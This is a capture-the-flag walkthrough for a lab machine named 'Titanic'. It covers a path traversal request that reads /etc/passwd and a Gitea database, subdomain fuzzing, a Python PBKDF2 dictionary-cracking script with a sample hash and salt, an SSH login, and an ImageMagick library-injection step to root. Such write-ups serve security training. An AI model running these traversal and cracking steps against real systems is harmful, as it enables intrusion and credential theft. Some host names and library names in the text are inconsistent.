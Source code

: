 VPN 10.10.11.61

1.  INFO: Add IP to hosts file

RUN: sudo nano /etc/hosts

2.  RUN: **nmap -sV -Pn heal.htb**

Result: PORTS FOUND: 22, 80

![](Titanic/media/image1.png)

3.  Add 10.10.11.55 titanic.htb to /etc/hosts file

4.  Activate Foxyproxy in Firefox

5.  Open <http://titanic.htb:80>

![](Titanic/media/image2.png)

- Start Burpsuite, activate INTERCEPT

- Book a ticket on Website (push SUBMIT button)

6.  **Push** **FORWARD**

![](Titanic/media/image3.png)

- Right click -\> **Send to Repeater**

Replace 1st line with: **GET
/download?ticket=../../../../../../etc/passwd HTTP/1.1**

![](Titanic/media/image4.png)

1st line Replaced (Result: see screenshot below)

- Push SEND

![](Titanic/media/image5.png)

Result

![](Titanic/media/image6.png)

USER.txt FLAG

![](Titanic/media/image7.png)

**SUBDOMAIN FUZZ**

1.  RUN: **ffuf -w
    /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u
    http://titanic.htb -H \"Host:FUZZ.titanic.htb\" -ac**

> ![](Titanic/media/image8.png)
>
> Add **dev.titanic.htb** to **/etc/hosts** file

![](Titanic/media/image9.png)

2.  Open [**http://dev.titanic.htb**](http://dev.titanic.htb)

> ![](Titanic/media/image10.png)

3.  Gitea DB is generally in **/data/gitea.db**

**CRACK PASSWORD**

7.  Replace 1st line with db

Search for USER: developer

![](Titanic/media/image11.png)

8.  Password HASH (**blue highlighted**)

Salt (**red squares**)

![](Titanic/media/image12.png)

9.  **INFO:** Use this script to crack (Target hash + salt) or use
    Hashcat

**Create script.py and put this inside**

import hashlib

import binascii



def pbkdf2_hash(password, salt, iterations=50000, dklen=50):

hash_value = hashlib.pbkdf2_hmac(

\'sha256\',

password.encode(\'utf-8\'),

salt,

iterations,

dklen

)

return hash_value



def find_matching_password(dictionary_file, target_hash, salt,
iterations=50000, dklen=50):

target_hash_bytes = binascii.unhexlify(target_hash)



with open(dictionary_file, \'r\', encoding=\'utf-8\') as file:

count = 0

for line in file:

password = line.strip()

hash_value = pbkdf2_hash(password, salt, iterations, dklen)

count += 1

print(f\"Checking_password {count}: {password}\")

if hash_value == target_hash_bytes:

print(f\"\\nFound password: {password}\")

return password

print(\"Password not found.\")

return None



salt = binascii.unhexlify(\'8bf3e3452b78544f8bee9400d6936d34\')

target_hash =
\'e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56\'

dictionary_file = \'/home/kali/Desktop/rockyou.txt\'

find_matching_password(dictionary_file, target_hash, salt)

Should look like this

![](Titanic/media/image13.png)

10. Put Target-hash and salt in the script (lines 30,31)

11. Crack it with script.py RUN: **python3 script.py**

**PASSWORD: 25282528 found for USER: developer**

![](Titanic/media/image14.png)

Password found

![](Titanic/media/image15.png)

**ROOT**

1.  Login with User: **ssh <developer@titanic.htb>** Password:
    **25282528**

2.  You'll find a script under **/opt/scripts**

3.  Find vulnerability: Check version of **magick**

> RUN: **magick -version**
>
> **Source:**
> <https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8>

4.  According to identifiy_image.sh, **libxch.so.1** needs to be
    generated under **/opt/app/static/assets/images**

> **INFO:** This directory can be found, if you run: **find / -writable
> -type d 2\>/dev/null**
>
> ![](Titanic/media/image16.png)
>
> This causes **magick** (under root permissions) to **read root.txt**

- Put it into a **Python-script**, e.g. **script.py** or paste it
  directly into the terminal, as below.

> ![](Titanic/media/image17.png)

- List files in directory

![](Titanic/media/image18.png)

- Modify original directory content. E.G. copy a jpg file.

![](Titanic/media/image19.png)

- Check if **libxcb.so.1** and **root flag** is there

- Display **root flag**

![](Titanic/media/image20.png)
